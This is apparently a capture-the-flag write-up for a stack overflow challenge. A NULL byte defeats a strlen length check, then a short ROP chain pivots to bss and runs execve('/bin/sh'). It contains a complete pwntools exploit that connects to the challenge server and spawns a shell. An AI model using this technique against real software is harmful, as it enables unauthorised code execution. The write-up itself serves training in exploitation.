



Using strlen on binary data is the definition of insanity.

Limited inital ropchain => pivot stack to bss for unlimited control.

<!--more-->

## Enumeration

### checksec

No pie, unstripped binary. Thank god :pray:.



### `input` function

1. Reads binary input until newline charecter into stack buffer.
2. Checks length of binary input using `strlen`
3. If length is less than supplied length, copies reads the whole binary input into param1


### First crash

Since length of binary buffer is calculated using `strlen()`, we can control it.

We can write buffer of any size by prefixing payload with a NULL byte.

For the payload

`b"\x00" + b"AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA"`

program crashes with offset = 55, and we can control 9 QWORDs in the stack.



Hence, our initial ropchain can take max 9 QWORDS of stack space.

### Automated ropchain

Try using [ropper](https://github.com/sashs/Ropper) to generate execve ropchain, but unfortunately it's too long to be written (we only control 9 QWORDs).

Hence, we need to trigger another write to a different location. I chose the `bss` section, as it was reasonably large.


## Exploit

1. Trigger buffer overflow
2. Send ropchain that calls input(`bss_start`, 0x200).
3. Write execve ropchain to `bss_start`.
4. Pivot stack to `bss_start`





```py
from pwn import *

exe = context.binary = ELF(args.EXE or "main")


def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = """
break *main+141
break *0x0000000000436E85
# break *input+0x131
# break *read+30
# break *__memchr_avx2+53
continue
""".format(
    **locals()
)


padding = b"\x00" + b"AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAAS"

bss_start = 0x004A9AA0

chain = b""
chain += p64(0x41F527)  # pop rdi; add rax, rdi; vzeroupper ; ret
chain += p64(bss_start)
chain += p64(0x403D5A)  # pop rsi; pop rbp; ret
chain += p64(0x200)
chain += p64(0x0)
chain += p64(0x402F66)  # input
chain += p64(0x0000000000436E85)  # pop rsp; ret;
chain += p64(0x4A9AB0)

io = remote("chal.78727867.xyz", 34000)
io.sendline(padding + chain)
io.recvuntil(b"Hello, ")


execve_chain = b""
execve_chain += p64(0x41F527)  # pop rdi; add rax, rdi; vzeroupper ; ret
execve_chain += p64(0x4A9AA8)
execve_chain += p64(0x44A8B5)  # pop rdx; bsf eax, eax; add rax, rdi; vzeroupper ; ret
execve_chain += p64(0x0)
execve_chain += p64(0x4297C3)  # pop rax; ret
execve_chain += p64(0x3B)
execve_chain += p64(0x44426B)  # pop rsi; pop rbp; mov rcx, rax; mov rax, rcx; ret
execve_chain += p64(0x0)
execve_chain += p64(0x0)
execve_chain += p64(0x412746)  # syscall
execve_chain += p64(0x41A93F)  # vzeroupper ; ret

io.sendline(
    flat(
        b"\x00" + b"A" * 7,
        b"/bin/sh\x00",
        execve_chain,
    )
)


io.interactive()

```

## Flag

`NHNC{a_rop_challenge_which_LemonTea_can_solve_and_i_wanna_sleep_lemontea_u_sucker_6f325c6517bd7789}`
